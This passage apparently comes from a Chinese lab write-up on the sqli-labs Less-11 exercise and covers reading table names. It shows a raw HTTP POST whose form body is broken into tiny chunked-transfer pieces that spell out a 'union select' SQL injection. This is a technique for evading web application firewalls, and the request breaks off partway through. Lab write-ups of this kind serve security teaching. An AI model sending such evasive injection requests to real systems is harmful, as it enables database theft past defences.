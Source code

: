     

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230303190506.png)

#### 读取表名：

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 619  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    1  
    u  
    2  
    na  
    1  
    m  
    1  
    e  
    1  
    =  
    1  
    &  
    2  
    pa  
    2  
    ss  
    2  
    wd  
    1  
    =  
    3  
    %27  
    1  
    u  
    2  
    ni  
    1  
    o  
    1  
    n  
    1  
    +  
    2  
    se  
    2  
    le  
    1  
    c  
    1  
    t  
    1  